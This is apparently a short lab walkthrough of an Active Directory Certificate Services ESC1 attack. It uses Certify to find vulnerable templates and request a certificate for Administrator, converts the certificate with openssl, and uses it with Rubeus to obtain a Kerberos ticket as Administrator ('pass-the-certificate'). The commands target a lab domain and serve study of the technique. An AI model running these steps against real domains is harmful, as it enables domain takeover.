 
### List vulnerable certificate templates:
```powershell
.\Certify.exe find /vulnerable /quiet
```

![[Pasted image 20230111103912.png]]

### Request a new certificate

```powershell
.\Certify.exe request /ca:WIN-8DRJKS8Q1T9.labad.fr\labad-CA /template:ESC1_TEST1 /altname:Administrator
```

![[Pasted image 20230111104057.png]]
![[Pasted image 20230111104241.png]]

A certificate is generated (PEM).
It must then be converted to PFX with the openssl command, and enter a new password for the certificate

```powershell
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

![[Pasted image 20230111104546.png]]

Then use this pfx certificate with rubeus (a tool for raw Kerberos interaction) and request a TGT

This attack is named "pass-the-certificate", see https://www.thehacker.recipes/ad/movement/kerberos/pass-the-certificate
```powershell
# usage
Rubeus.exe asktgt /user:"TARGET_SAMNAME" /certificate:"BASE64_CERTIFICATE" /password:"CERTIFICATE_PASSWORD" /domain:"FQDN_DOMAIN" /dc:"DOMAIN_CONTROLLER" /show
# example
.\Rubeus.exe asktgt /user:Administrator /certificate:<cert.pfx path> /password:<pfx password> /ptt
```

![[Pasted image 20230111104959.png]]

The TGT is automatically saved in your environment (thanks to /ptt in rubeus), then you can use a simple dir by specifying the target:
![[Pasted image 20230111105353.png]]
for more, see [[Working-with-TGT]]

